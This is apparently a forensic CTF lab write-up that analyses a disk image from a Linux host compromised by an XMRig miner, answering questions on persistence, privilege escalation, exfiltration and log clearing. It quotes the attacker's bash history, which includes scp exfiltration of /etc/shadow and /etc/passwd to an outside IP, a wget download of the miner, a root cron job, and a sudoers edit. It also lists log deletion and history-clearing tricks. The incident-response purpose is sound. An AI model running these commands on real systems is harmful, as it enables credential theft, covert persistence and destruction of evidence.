# XMRig Lab
---


## XMRig Analysis

**Q1: Assigning high-level privileges to a new user is essential in the attack chain, as it enables the attacker to execute commands with administrative access, ensuring persistent control over the system.What command did the attacker use to grant elevated privileges to the newly created user?**

`testdisk Artifacts\ /disk_image.img`

`Disk Artifacts /disk_image.img > Processed > EFI GPT (base on Hint)`



`Advanced >  P Linux filesys. data > List`

After copy all file from img to local machine, i need to deeper analyze (Remember if you want to copy all file, you need arrow to . directory and copy)



you can receive a linux file system same the image file



> **sudo usermod -aG sudo noah**

**Q2: Understanding the commands used by the attacker to cover their traces is essential for identifying attempts to hide malicious activity on the system.What is the second command the attacker used to erase evidence from the system?**

> **sudo rm -f /var/log/auth.log**

**Q3: Identifying the configuration added or modified by the attacker for persistence is essential for detecting and removing recurring malicious activities on the system.What configuration line did the attacker add to one of the key Linux system files for scheduled tasks to ensure the miner would run continuously?**



Here is cronjob, that same with Task scheduler in Windows

But don't have anathing look like suspicious job. After a long time, I saw these log in `/var/log/syslog`:



At **crontab[2348]**, that has been edit root's cronjob of system and here is the directory: `var/spool/cron/crontabs/root`

```
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.JEFuPN/crontab installed on Mon Oct 28 15:24:38 2024)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
0 * * * * /tmp/backup.elf >/dev/null 2>&1 
```

> **0 * * * * /tmp/backup.elf >/dev/null 2>&1**

**Q4: Identifying the hash of the malicious file is crucial for confirming its uniqueness and tracking its presence across systems.What is the MD5 hash of the file dropped by the attacker with mining capabilities?**



> **d25208063842ebf39e092d55e033f9e2**

**Q5: Knowing the original name of a malicious file helps link it to known malware families and provides valuable insights into its behavior. According to threat intelligence reports, what is the miner's original name?**



> **xmr_linux_amd64 (3)**

**Q6: Understanding the command used by the attacker to download the miner is crucial for tracing how malicious files were introduced to the system. What was the successful command the attacker used to download and save the miner on the compromised Linux system?**

* Look at Question 4

> **wget http://3.28.195.43/Tools/backup/backup.elf -O /tmp/backup.elf**

**Q7: To better understand which sensitive information was accessed and transferred from the compromised system, it’s essential to identify the files exfiltrated by the attacker. What is the full path on the attacker’s remote machine where the exfiltrated passwd file was saved?**

Here is detail of /root/.bash_history
```bash
echo 'Defaults !tty_tickets' >> /etc/sudoers
cat /etc/sudoers > /tmp/sudoers.txt
cat /etc/passwd > /tmp/passwd.txt
cat /etc/shadow > /tmp/shadow.txt
cat /etc/ssh/ssh_config > /tmp/sshconfig.txt
scp /tmp/passwd.txt ubuntu@3.28.195.43:/home/ubuntu/passwd.txt
scp /tmp/sudoers.txt ubuntu@3.28.195.43:/home/ubuntu/sudoers.txt
scp /tmp/shadow.txt ubuntu@3.28.195.43:/home/ubuntu/shadow.txt
scp /tmp/sshconfig.txt ubuntu@3.28.195.43:/home/ubuntu/sshconfig.txt
wget http://3.28.239.653.28.195.43/Tools/backup/backup.elf -O /tmp/backup.elf
wget http://3.28.195.43/Tools/backup/backup.elf -O /tmp/backup.elf
chmod +x /tmp/backup.elf
crontab -e
exit 
```

> **/home/ubuntu/passwd.txt**

**Q8: Understanding how the attacker maintained elevated privileges without repeated permission prompts is essential for uncovering their methods of persistent access.What command did the attacker use to configure continuous privilege escalation without requiring repeated permission?**

Here is explain about this command for maintained elevated privileges:



> **echo 'Defaults !tty_tickets' >> /etc/sudoers**

**Q9: Identifying the source IP address used for lateral movement is crucial to trace the attacker’s path and understand the scope of the compromise.What is the IP address of the machine the attacker used to perform lateral movement to this Linux box?**



> **192.168.19.147**

**Q10: Identifying the first username targeted by the attacker in their brute-force attempts offers insight into their initial access strategy and target selection, as the attacker attempted to access two different accounts. What was the first username the attacker targeted in these brute-force attempts?**



You can see very authen from sshd and user ubuntu

Using this command to extract all information relate IP 192.168.19.147:

```bash
journalctl --file journal/4de90f86bd5a455aa73620daef50e0f4/system@26c67c3c7d5840699b51546b67acd2f3-0000000000000001-0006258a79d20247.journal | grep "192.168.19.147" > auth.log
```



Root is first user used to bruteforce

> **root**

**Q11: Identifying the time of the attacker’s final login is essential for pinpointing when they last accessed the system to conceal their activity and erase evidence. What is the timestamp of the attacker’s last login session during which they were clearing traces on the compromised machine?**



> **2024-10-28 15:35:21**

**Q12: During the attacker’s SSH session, they used a command that mistakenly saved their activities to the hard drive rather than keeping them in memory where they’d be more difficult to analyze. Which bash command did they use that left this trace?**

Base on question 7, last command is exit. 

> ❗❗ When attacker end of session with **exit** command without clear or delete **.bash_history**, it can inadvertently trigger **the saving of command history** to the hard drive

> ✅ To avoid leaving trace, some popular command used to unset or clear history like: `unset HISTFILE`, `export HISTSIZE=0` or `history -c` 

> **exit**